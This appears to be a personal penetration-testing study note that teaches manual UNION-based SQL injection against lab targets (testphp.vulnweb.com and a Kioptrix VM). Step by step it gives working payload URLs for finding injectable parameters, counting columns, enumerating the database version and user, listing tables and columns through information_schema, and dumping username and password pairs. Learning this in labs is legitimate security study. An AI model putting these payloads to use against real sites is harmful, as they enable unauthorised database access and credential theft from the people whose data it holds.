 # SQL Injection (SQLi)

`There are many types of injection vulnerabilities possible within web applications, such as HTTP injection, code injection, and command injection. The most common example, however, is SQL injection. A SQL injection occurs when a malicious user attempts to pass input that changes the final SQL query sent by the web application to the database, enabling the user to perform other unintended SQL queries directly against the database.

There are many ways to accomplish this. To get a SQL injection to work, the attacker must first inject SQL code and then subvert the web application logic by changing the original query or executing a completely new one. First of all, the attacker has to inject code outside the expected user input limits, so it does not get executed as simple user input. In the most basic case, this is done by injecting a single quote (') or a double quote (") to escape the limits of user input and inject data directly into the SQL query.

Once an attacker can inject, they have to look for a way to execute a different SQL query. This can be done using SQL code to make up a working query that executes both the intended and the new SQL queries. There are many ways to achieve this, like using stacked queries or using Union queries.

Finally, to retrieve our new query's output, we have to interpret it or capture it on the front end of the web application`
___

### First step :
_we can try to check if there is a SQLI with adding '_
If the page remains in same page or showing that page not found or showing some other webpages. Then it is not vulnerable.
If it showing any errors which is related to sql query,then it is vulnerable
for eg:
![[Pasted image 20211206181830.png]]

### Step two :
_Finding out the number of columns_
Now we know that the web is vulnerable next step is to find out the number of columns in the table we can do that by using order by query 
https://testphp.vulnweb.com/listproducts.php?cat=1 order by n
replace n with numbers you want or you can use them together by adding , between the numbers 
```
https://testphp.vulnweb.com/listproducts.php?cat=1 order by n,n,n,n,n,,n,n
for #eg. 1 2 3 4 5 6 7 8 


#Checking for fields
OR UNION # Keep adding null till you don't get an error
https://testphp.vulnweb.com/listproducts.php?cat=' UNION SELECT null,null,null; -- -


```
```
https://testphp.vulnweb.com/listproducts.php?cat=1%20order%20by%202
https://testphp.vulnweb.com/listproducts.php?cat=1%20order%20by%203
https://testphp.vulnweb.com/listproducts.php?cat=1%20order%20by%201,2,3,4,5,6
```
and sometimes it might not work and wee need to add "--" at the end of the query 
```
https://testphp.vulnweb.com/listproducts.php?cat=1 order by 1,2,3,4,5,6-- -
```
we can keep raising the number up till we get an error that means that column doesn't exist and we 
![[Pasted image 20211206182930.png]]

### Step Three :
_Checking for the vulnerable column_
Using “union select columns_sequence” we can find the vulnerable part of the table. Replace the “order by n” with this statement. And change the id value to negative(i mean id=-2,must change,but in some website may work without changing).

if the number of columns is 6 we can do the query like this : 
http://kioptrix3.com/gallery/gallery.php?id=-2%20union%20select%201,2,3,4,5,6--
![[Pasted image 20211206183809.png]]
or if it didn't work we can try 
```
http://kioptrix3.com/gallery/gallery.php?id=-2%20and%201=1%20union%20select%201,2,3,4,5,6--
```
it will show some numbers on the page let's take one of them and test on it 
![[Pasted image 20211206183958.png]]
let's try 3 
### Step Four :
_Enumerating the version tables database users etc._
now in the url we can change the number 3 to a SQL command 
http://kioptrix3.com/gallery/gallery.php?id=-2 and 1=2 union select 1,2,version(),4,5,6--
![[Pasted image 20211206184144.png]]
and it works! 
now we can take this further and extract more info from the system 
we can use database() 
![[Pasted image 20211206184310.png]]

or user()
![[Pasted image 20211206184328.png]]

if the above examples didn't work we can use hex and unhex 
```
http://kioptrix3.com/gallery/gallery.php?id=-2 and 1=2 union select 1,2,unhex(hex(@@version)),4,5,6
```
![[Pasted image 20211206184440.png]]

### Step Five :
_Getting Table name_
in this step we can use group_concat(table_name) from information_schema.tables where table_schema=database() to get the table name 

![[Pasted image 20211206184647.png]]

now we have table names on the database

`if the version is 4 or some others, you have to guess the table names. (user, tbluser).  It is hard and bore to do sql inection with version 4.`

### Step Six :
_Finding Column name_
Now we replace the “group_concat(table_name) with the “group_concat(column_name)”
and 
Replace the “from information_schema.tables where table_schema=database()–” with “FROM information_schema.columns WHERE table_name=SQLCHARS–
now what we should do is convert the table name into a SQLCHARS 
we can do that in : http://www.waraxe.us/sql-char-encoder.html
now we want to get columns inside gallarific_users table so converting gallarific_users into sqlchars we get 0x67616c6c6172696669635f7573657273
adding that to our url 

```
http://kioptrix3.com/gallery/gallery.php?id=-2%20and%201=2%20union%20select%201,2,group_concat(column_name),4,5,6%20from%20information_schema.columns%20where%20table_name=0x67616c6c6172696669635f7573657273
```

![[Pasted image 20211206190118.png]]

now we have all the columns inside gallarific_users

### Step Seven :
_Dumping the database columns values_

Now we replace the replace group_concat(column_name) with group_concat(columnname,0x3a,anothercolumnname).
columnname should be replaced with what column name we want to get 
and anothercolumnname should be replaced with what other column we also want to see 
Now we  replace the ” from information_schema.columns where table_name= 0x67616c6c6172696669635f7573657273” with the “from table_name”
http://kioptrix3.com/gallery/gallery.php?id=-2 union select 1,2,group_concat(username,0x3a,password),4,5,6 from gallarific_users--
![[Pasted image 20211206190710.png]]
and Voila! 
we have the users and passwords from the table users
